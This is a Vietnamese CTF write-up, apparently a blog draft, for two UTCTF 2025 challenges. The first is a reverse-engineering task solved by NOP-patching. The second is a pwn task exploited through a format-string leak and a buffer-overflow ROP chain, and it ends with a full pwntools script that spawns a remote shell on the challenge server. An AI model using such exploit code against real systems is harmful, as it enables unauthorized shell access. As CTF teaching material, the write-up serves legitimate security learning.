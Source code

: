 +++
date = '2025-04-16T03:03:35+07:00'
draft = true
title = 'UTCTF 2025'
+++

Giải này mình tham gia song song với K!nd4SUS CTF 2025 nên không có giải được nhiều. Tuy nhiên mình vẫn có 1 chall dễ rev và 1 chall pwn.

## Ostrich Algorithm - reverse engineering

### 1. Analysis

Sử dụng IDA pro mở file thì ở hàm start mình nhìn thấy được đoạn mã giả như sau:

![](http://note.bksec.vn/pad/uploads/c642225f-6fae-4137-9a1e-2b3440dbf478.png)

Do chương trình này Statically linked, cộng với các tham số truyền vào hàm sub_404000 nên mình đoán có vẻ đây là 1 hàm giống _libc_start_main. Đọc kỹ hơn bên trong thì mình gần như chắc chắn điều đó, do vậy có vẻ hàm Sub_401775 sẽ là hàm main.


![](http://note.bksec.vn/pad/uploads/b334259f-79c8-408f-beb0-83acaa5fbc15.png)

Bên trong hàm sub_401775 mình thấy chương trình so sánh chuỗi "welcome to UTCTF!" và chuỗi "oiiaoiiaoiiaoiia", nếu không giống nhau sẽ gọi sub_40c90. Kiểm tra bên trong hàm này cùng với thử đặt breakpoint tại đây khi debug, mình nhận ra hàm sub_401775 sẽ thoát chương trình. Như vậy chương trình sẽ luôn dừng ở đây. Do đó ý tưởng ban đầu là mình thử patch byte xem sao.

### 2. Patch byte

Mình patch toàn bộ lệnh gọi hàm sub_401775 bằng nop.

![](http://note.bksec.vn/pad/uploads/e12dd13b-43d2-4d9a-aa14-29df208406fb.png)

Thay toàn bộ byte ở đây thành 0x90.

![](http://note.bksec.vn/pad/uploads/abc11f3d-9765-4762-b292-bdf35bc19ed2.png)

Mình cho chạy thử chương trình ở đây và nhận được flag.

![](http://note.bksec.vn/pad/uploads/d92eaae1-ee59-42ff-9281-ddeba29ba05f.png)


## RETirement plan - binary exploitation

### 1. Vulnerability

![](http://note.bksec.vn/pad/uploads/5f3c2ac8-9173-4b27-a461-21b26e51468c.png)

Nhìn vào pseudocode, mình nhận thấy một lỗi bof ở hàm gets() và lỗi format string ở hàm printf.
![](http://note.bksec.vn/pad/uploads/f18e2e1c-14fd-4573-82ee-2590ebb6425b.png)

Checksec chương trình nhận thấy không có bất kỳ một mitigation nào, ngoại trừ Partial RELRO. Do đó chall này có rất nhiều phương án, phương án của mình trình bày ở đây là sử dụng ROP.

### 2. Analysis

Vòng lặp for ngay bên dưới hàm gets là một thuật toán xử lý để lọc các ký tự độc hại nhằm khai thác format string. Tuy nhiên thay vì kiểm tra string format, chương trình lại gán format vào con trỏ v5 và thực hiện rà soát string vào con trỏ v5. Không những vậy, vòng lặp sẽ chạy đến khi v5[i] có giá trị NULL. Như vậy ý tưởng của mình sẽ là ghi đè giá trị con trỏ v5 bằng 1 địa chỉ có quyền rw mà ở đấy toàn các giá trị NULL. Sau đó mình sẽ ghi đè ret_address bằng các gadget nhằm thực thi lại hàm main 1 lần nữa sau khi đã leak được địa chỉ libc trên qua format string. 

### 3. Exploitation

Payload đầu tiên của mình sẽ khai thác format string để leak giá trị trên stack, đồng thời ghi đè ret_address về hàm main 1 lần nữa. Trước tiên mình cần tìm 1 vùng nhớ có quyền rw mà toàn các giá trị NULL để gi đè v5.
![](http://note.bksec.vn/pad/uploads/38930f93-4883-4e26-8acf-c442f9ba858b.png)


![](http://note.bksec.vn/pad/uploads/044fc572-f809-471e-bb5c-d2756a97d3f1.png)

vậy là đã có vùng nhớ ghi đè vào v5. Mình sẽ thử gửi payload xem chúng ta thu được gì.

![](http://note.bksec.vn/pad/uploads/22762ac5-91ce-4017-8c1c-ff340dacec53.png)


![](http://note.bksec.vn/pad/uploads/b17689df-3abf-4d74-938a-b59d861d0425.png)

Check giá trị thu được, chúng ta biết được rằng địa chỉ này là địa chỉ của hàm _IO_2_1_stdin_ trong libc.

việc còn lại khá là đơn giản, payload thứ 2 chúng ta chỉ cần ghi đè các gadget để thực thi system(/bin/sh) là xong.

![](http://note.bksec.vn/pad/uploads/de10ba13-071e-4928-95ef-d97bba1a1e63.png)

![](http://note.bksec.vn/pad/uploads/44ddeac7-0360-4fe1-a23a-4a81b4dfb089.png)

Kết nối vào máy remote ta thu được flag.

![](http://note.bksec.vn/pad/uploads/8b653fa8-583d-431a-bf51-f15663cd4a5b.png)


### 4. Script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./shellcode_patched",checksec=False)
libc = ELF("./libc-2.23.so",checksec=False)
rw_section=0x601000
main=0x400616

context.binary = exe


p=remote('challenge.utctf.live',9009)

p.recvuntil(b'<Insert prompt here>: ')
payload=b'%3$p '
payload=payload.ljust(0x30,b'A')
payload+=p64(0x601200)+12*b'A'+b'0'+3*b'A'+p64(main)
p.sendline(payload)
leak=int(p.recvuntil(b' '),16)
libc_base= leak-libc.sym['_IO_2_1_stdin_']

log.info(f'Leak: {hex(leak)}')
log.info(f'libc base: {hex(libc_base)}')

system=libc.sym['system']+libc_base
binsh=libc_base+next(libc.search(b'/bin/sh'))
pop_rdi=0x0000000000400793
ret=pop_rdi+1
payload=0x30*b'A'
payload+=p64(0x601200)+12*b'A'+b'0'+3*b'A'
payload+=p64(pop_rdi)+p64(binsh)
payload+=p64(ret)
payload+=p64(system)
p.recvuntil(b'<Insert prompt here>: ')
p.sendline(payload)
p.recv()
p.interactive()

```




